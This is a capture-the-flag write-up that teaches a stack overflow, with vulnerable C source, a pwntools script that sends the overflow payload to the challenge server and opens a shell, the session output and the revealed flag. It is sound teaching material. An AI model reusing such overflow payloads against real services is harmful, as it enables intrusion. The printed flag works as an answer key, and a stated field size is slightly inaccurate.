

# Pwn 101: Memory Corruption

The first step in this task was to analyze the source code: 
```C
#include <stdlib.h>
#include <stdio.h>
#include <unistd.h>
#include <stdbool.h>

struct user {
	char name[16];
	int age;
	bool is_hacker;
} __attribute__((packed));

int main() 
{
	struct user hacker;
	hacker.is_hacker = 0;
	hacker.age = 25;

	setvbuf(stdout, NULL, _IONBF, 0);
	printf("Hey, hacker! What's your name?\n");

	read(STDIN_FILENO, hacker.name, 30);

	if (hacker.age == 25 && hacker.is_hacker == 1) {
		printf("You made it! Hackers dont have an age limit!\n");
		system("/bin/sh");
	} else {
		printf("Oh noes, you're not old enough to be a hacker!\n");
	}

	return 0;
}
```

There are a few things to notice in the source code, which is the first step from the README:

* After the includes, we find a struct called `user`. The struct holds three variables, the name, the age and whether the user is a hacker or not. A variable called `hacker` is defined with this struct, and its age is initialized to `25` and the `is_hacker` boolean value is intialized to `0`, which means the user is not really a hacker. The variables are only initialized, but not changed anywhere in the code. 
* Next, the `read()` function reads 30 characters of your input from the terminal, and put your text into the `hacker.name` variable. If you try to input more than 30 characters, the program will ignore them. _Notice how the name only have room for 15 characters! (All buffers has a 0-byte at the end)_
* The most special part in this source code, is the if-sentence. If `hacker.age` is `25`, and the boolean value `hacker.is_hacker` is `1`, a shell is spawned. If not, a text is pasted to your terminal, and the program exits. We want to program to spawn a shell, because then we can use `cat flag.txt` to fetch the flag! You may have noticed that the `is_hacker` variable is set to `0`. As mentioned, these variables never changes in this source code. This if-sentence of the code tells us that we need to change the `is_hacker` variable to `1`, but have to keep the variable value of `25`.  

Now that we have studied the source code, let's check out what happens when we connect to the server or run the executable locally. I usually test the connection to the server first, but it doesn't really matter if we study the code before or after testing it.

* Run `$ nc pwn101.tghack.no 1060` in the terminal to connect to the server.
* Run `$ ./pwn101` in the terminal to run the executable locally.

```
$ nc pwn101.tghack.no 1060 
Hey, hacker! What's your name?
marito_o
Oh noes, you're not old enough to be a hacker!
```

Oh well, no surprises there. This is exactly what we anticipate after reading the source code. Now we need to find out how to maintain the value of `hacker.age`, but change the `hacker.is_hacker` variable.

When understanding [the stack and memory layout](https://en.wikipedia.org/wiki/Data_segment), this is actually a quite simple task. However, understanding the stack and memory layout might not be too simple. Let's draw the memory layout to show you have it looks:



The picture above show us two drawings of the memory layout. The first shows the prologue of the **stack frame**. The stack frame is just the memory layout for a specific function. In our case that function is the main function. In the prologue, the previous stack frame pushed its return address in order for our main function to know where to return after finishing running through the code. In addition, the base pointer of the previous stack frame is pushed on the stack in order to know how to find the local variables when our main function has finished. Lastly, the stack frame makes space for all the local variable in our main function. In our case, the only local variable is the struct, which is the first declared variable in the main function, `struct user hacker`. Or, we may say that the struct contain all the local variables in this program. 

The memory layout drawing to the left shows the stack frame of the main function when all the variables have been initialized with a value. We can see that the variables are ordered in the same structure as it is defined in the struct, which is something that always happens with values in structs. This is the memory layout we have to use in order to overwrite the variables correctly. Basically, we have to use 16 bytes for the `name`, then 4 bytes for the `age`, and 4 bytes for the `is_hacker` variable. 

I wrote a Python script with the solution. Take a look the snippet below, which solves the structure of the input data to overwrite the `is_hacker` variable without changing the `age`:
```C
from pwn import *

r = remote("pwn101.tghack.no", 1060)

padding = "Marit er bestest" # 16 byte padding
binarydata = p32(25) # Binary data for the 32-bit integer '25'
is_hacker_byte = "\x01" # Hexadecimal representation of '1'

r.sendline(padding + binarydata + is_hacker_byte)
r.recvline()

r.interactive()
```

Here, I use pwn-tools to connect to the server with the domain name and the port as specified in the task description. Afterwards, I write the three variables with the right amount of characters, before sending them to the server. Then I receive the next line, and finish up the code with `r.interactive()` which starts an interactive session. By interactive session, I mean that you manually interact with the shell as if you had connected without the script. Read more about [Python](https://www.codecademy.com/learn/learn-python) and [Pwn-Tools](https://github.com/Gallopsled/pwntools) by pressing the links!

Now that you have a shell with access to read the flag, let's find it! Entering `id` or `whoami` as a command in the shell will list information about the current user. If you have access to read the file, you should be able to use the terminal comman `ls`, and then you can paste the contents of the file by writing `cat flag.txt`.
```
python2 solve_script.py 
[+] Opening connection to pwn101.tghack.no on port 1060: Done
[*] Switching to interactive mode
You made it! Hackers dont have an age limit!
$ ls
flag.txt
pwn101
$ cat flag.txt
TG18{b4bys_f1rst_mem0ry_c0rrupti0n}
```

AH YEAH!! We got the flag!!

**Fact:** Even though it is not as common as before, memory corruption is still a serious problem.
